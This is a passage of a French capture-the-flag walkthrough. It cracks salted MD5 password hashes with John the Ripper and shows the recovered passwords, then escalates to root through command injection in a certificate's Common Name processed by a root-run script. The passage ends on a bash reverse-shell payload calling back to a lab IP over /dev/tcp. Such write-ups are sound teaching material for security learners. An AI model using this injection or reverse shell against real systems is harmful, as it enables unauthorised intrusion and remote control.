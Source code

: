 On crack enfin nos hashes en précisant le format de génération des hashes :

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=dynamic='md5($s.$p)' hashes 
Using default input encoding: UTF-8
Loaded 6 password hashes with no different salts (dynamic=md5($s.$p) [256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
iluvhorsesandgym (bill)     
Aaronthehottest  (dmytro)     
2applesplus2apples (michael)     
```

On se connecte ensuite en tant que "bill" via SSH et on récupère le Flag utilisateur.

Privesc

On découvre le script `/opt/renew_cert.sh` qui est vulnérable à une injection de commande bash.

A première vue, ce script n'est pas exécuté dans cron ou tout du moins, pas depuis un emplacement sur lequel nous avons des droits de lecture.

On vérifie s'il est appelé autrement via l'outil `pspy`.

Au bout d'une minute, on découvre qu'il est effectivement appelé par l'utilisateur root avec en paramètre un certificat situé dans `/home/bill/Certs/broscience.crt`

Après analyse du script vulnérable on détermine les éléments permettant de déclencher une exécution de code arbitraire :

- il faut un certificat expirant dans moins de 24h
- il faut que le `Common Name` contienne l'injection de commande.

Après quelques test, facilités via le lancement du script à l'aide de `bash -x`, on on arrive à créer une payload fonctionnelle.

`$(bash -c 'bash -i >& /dev/tcp/10.10.14.34/1338 0>&1'`
